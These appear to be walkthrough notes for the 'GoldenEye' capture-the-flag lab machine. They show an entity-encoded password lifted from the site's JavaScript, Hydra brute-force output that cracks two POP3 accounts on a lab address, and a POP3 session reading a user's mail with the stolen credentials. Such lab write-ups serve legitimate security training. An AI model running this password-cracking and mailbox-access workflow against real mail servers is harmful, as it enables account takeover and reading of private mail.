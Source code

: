 ```javascript
  var element = document.getElementById(currentElementId);
  var devTypeText = currentElementIdContent;

 
  var i = 0, isTag, text;
  (function type() {
    text = devTypeText.slice(0, ++i);
    if (text === devTypeText) return;
    element.innerHTML = text + `<span class='blinker'>&#32;</span>`;
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}
```


### Boris password:
```
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```


### Hydra pop3
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-01 23:02:21
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 444 login tries (l:2/p:222), ~7 tries per task
[DATA] attacking pop3://10.10.10.9:55007/
[55007][pop3] host: 10.10.10.9   login: boris   password: secret1!
[STATUS] 381.00 tries/min, 381 tries in 00:01h, 63 to do in 00:01h, 64 active
[55007][pop3] host: 10.10.10.9   login: natalya   password: bird
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-01 23:03:32
```


### pop3 boris
```
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id D9E47454B1
	for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
.
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
```